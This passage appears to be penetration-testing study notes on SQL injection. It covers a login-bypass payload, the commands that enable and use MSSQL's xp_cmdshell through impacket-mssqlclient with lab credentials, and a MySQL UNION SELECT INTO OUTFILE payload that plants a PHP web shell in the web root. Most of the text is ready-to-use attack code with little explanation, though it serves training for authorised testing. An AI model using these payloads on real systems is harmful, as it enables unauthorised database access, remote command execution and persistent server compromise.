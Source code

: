 
```mysql
offsec' OR 1=1 -- //
```


## Manual Code Execution

MSSQL has function xp_cmdshell on which passing string for execution will be executed on OS. This is by default disable once enabled we can execute commands.
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;```

Like
```bash
EXECUTE xp_cmdshell 'whoami';
```



MySQL database variant doesn't provide single function to escalate to RCE.
We can abuse the `SELECT INTO_OUTFILE` statement to write on server.
```mysql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
